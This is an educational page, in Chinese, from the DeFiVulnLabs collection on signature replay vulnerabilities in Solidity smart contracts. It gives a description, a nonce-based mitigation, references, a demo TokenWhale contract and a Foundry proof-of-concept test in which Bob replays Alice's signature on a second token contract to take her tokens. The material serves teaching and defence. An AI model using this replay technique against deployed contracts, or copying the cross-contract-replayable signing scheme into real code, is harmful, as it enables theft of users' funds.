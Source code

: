 # 签名重放
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**名称：** 签名重放漏洞  
**描述：**  
在这种情况下，Alice签署了一项交易，允许Bob将代币从Alice 的账户转移到 Bob 的账户。  

然后，Bob在多个合约（在本例中为 TokenWhale 和 SixEyeToken 合约）上重放此签名，每次都授权将代币从Alice的账户转移到他的账户。这是可能的，因为合约使用相同的方法来签署和验证交易，但它们不共享nonce值来防止重放攻击。   

缺少针对签名重放攻击的保护，可以多次使用相同的签名来执行函数。  


**缓解建议：**   
可以通过在签名和验证过程中使用nonce（仅使用一次的数字）来防止重放攻击。  

**参考：**  
https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57  
https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25  


**TokenWhale合约：**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/SignatureReplay.sol -vvvv 
```  
// 使用代币合约演示重放攻击的函数
function testSignatureReplay() public {
    // 记录合约的当前余额。
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // 根据输入数据生成唯一的哈希值
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // 记录哈希值
    emit log_named_bytes32("hash", hash);

    // 使用地址的私钥对哈希进行签名
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // 记录签名组件
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // 从签名中恢复签名者的地址
    address alice_address = ecrecover(hash, v, r, s);

    // 记录签名者的地址
    emit log_named_address("alice_address", alice_address);

    // 通知可能的攻击
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob变成了恶作剧者
    vm.startPrank(bob);

    // Bob使用Alice的签名将代币从Alice的账户转移到他的账户
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob的新余额
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // 记录攻击的下一步
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    //在重放之前用另一个代币记录Bob的余额。
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob使用Alice的签名在不同的合约中转移代币
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob在第二份合约中的新余额
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob尝试在同一个合约上重放攻击，但由于随机数检查而失败
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    //  第二次尝试后记录Bob的余额
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```  
**红框：** 签名重放。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F25146438-71a8-47bc-a7e7-a32ea63cf6b0%2FUntitled.png?table=block&id=19975d97-c976-4b16-9e9a-2cf903bf0b5f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)